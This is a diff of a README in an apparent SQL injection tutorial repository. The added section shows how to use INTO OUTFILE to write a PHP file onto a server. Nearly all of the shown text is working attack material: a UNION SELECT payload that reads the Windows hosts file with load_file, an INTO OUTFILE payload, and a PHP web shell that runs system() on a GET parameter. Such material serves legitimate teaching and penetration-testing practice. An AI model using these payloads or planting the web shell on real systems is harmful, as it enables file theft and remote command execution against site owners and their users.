

Before and after one commit to bluecrypt47/SQLi-UNION, a Markdown page: readme.md, the part around the change. Drawn GitHub-style; pictures changed too: img/17.png (added); blank space fills up the shorter version.

Commit message:
outfile()

```diff
--- a/readme.md
+++ b/readme.md
@@ -71,3 +71,16 @@ Mục lục:
 3. File hosts
 `' UNION SELECT load_file("C:/Windows/System32/Drivers/etc/hosts"),NULL,3,4,5,6,7,8,9,NULL,NULL,NULL,13,14 #`
 ![Hinh 15.](~/../img/16.png)
+
+## OUTFILE()
+
+`' UNION SELECT NULL,NULL,3,4,5,6,7,8,9,NULL,NULL,NULL,13,14 INTO OUTFILE "C:/Users/MTGR/Desktop/test.php" #`
+![Hinh 16.](~/../img/17.png)
+
+---php
+<pre>
+<?php
+	system($_GET['cmd'])
+?>
+</pre>
+---
```
